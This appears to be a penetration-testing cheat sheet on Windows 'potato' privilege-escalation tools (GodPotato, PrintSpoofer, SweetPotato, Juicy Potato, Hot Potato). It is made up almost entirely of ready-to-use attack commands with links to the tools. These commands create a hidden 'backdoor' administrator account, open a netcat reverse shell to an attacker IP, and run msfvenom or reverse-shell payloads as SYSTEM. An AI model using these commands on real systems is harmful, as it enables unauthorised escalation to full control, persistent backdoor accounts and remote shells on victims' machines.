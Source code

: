 # 🥔 Potatoes

## God Potato

Check usage on [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato).

This is the best potato and can also be use to add an Administrator user when a shell is unstable

```
GodPotato -cmd "net user /add backdoor Password123"
GodPotato -cmd "net localgroup administrators /add backdoor"
```

## PrintSpoofer

The next best after Godpotato, get it from [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

```
PrintSpoofer.exe -i -c powershell.exe
```

## SweetPotato

```
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc64.exe -a "<ip> <port> -e cmd"
```

Get it from here [https://github.com/carr0t2/SweetPotato/releases/tag/v1.0.0](https://github.com/carr0t2/SweetPotato/releases/tag/v1.0.0)

## Juicy Potato

1. Get a shell.exe ready from msfvenom
2. Use the port used in shell.exe and get CLSID from [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

{% code overflow="wrap" %}
```
jp.exe -l 8000 -p C:\Users\Public\shell.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```
{% endcode %}

## Hot Potato

{% code overflow="wrap" %}
```
.\potato.exe -ip <attacker ip> -cmd "C:\Path\to\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```
{% endcode %}
